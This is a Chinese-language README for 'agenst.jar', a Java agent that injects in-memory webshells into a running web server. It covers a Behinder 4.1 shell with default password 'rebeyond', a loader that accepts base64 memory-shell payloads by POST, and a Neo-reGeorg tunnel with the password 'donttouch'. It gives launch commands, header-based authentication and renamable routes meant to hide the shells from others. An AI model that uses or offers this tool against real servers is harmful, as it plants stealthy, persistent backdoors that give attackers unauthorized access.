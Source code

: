 # 使用方式
扔到服务器上，`java -jar agenst.jar`即可。

如果需要添加参数（参见下述“自定义校验”与“自定义注入路径”），请尽量使用空格作为分隔符。

如运行报错，考虑：
1. 环境不正确，寻找一个jdk
2. 缺少dll或so文件，找一个attach.dll放在加载目录下（这是java agent注入的前置条件）

# 支持功能
1. 支持**冰蝎**、**Neo-reg**和**自定义的内存马**，内存马访问WEB进行注入。
2. 支持自定义校验机制，可采用请求头校验
3. 支持自定义注入路径，防止被捡走^ ^

## 默认条件启动
+ /agenstR 为冰蝎4.1 shell，默认密码为rebeyond
+ /agenstE 为自定义内存马加载器，使用POST方式在body处添加base64格式的内存马即可（内存马用JMG生成就行）
+ /agenstN 为Neo-reg代理，密码为`donttouch`，使用`python .\neoreg.py -k donttouch -u http://server.com/(..)/agenstN`

## 自定义校验
请在启动时使用参数-a=来指定一个请求头，格式为A:B。
如`java -jar agenst.jar -a=Referer:123456`（请求头与值请使用小写）。
此时所有路由都将开启校验。

## 自定义注入路径
1. 请在启动时使用参数-u=来指定一个路径，所有内存马路径将沿用这个路径代替字符串`agenst`如`java -jar agenst.jar -u=zhangwei`，则如冰蝎访问路径会变为/zhangweiR，以此类推（注入的filter等不沿用此规则）。
2. 使用参数-uR=或-uE=或-uN=来分别定义三种内存马的路径，如`java -jar agenst.jar -uR=myRebeyond`，则仅有冰蝎的路径变为/myRebeyond。

# Then
Enjoy ur PenTest, have fun!

by AugustTheodor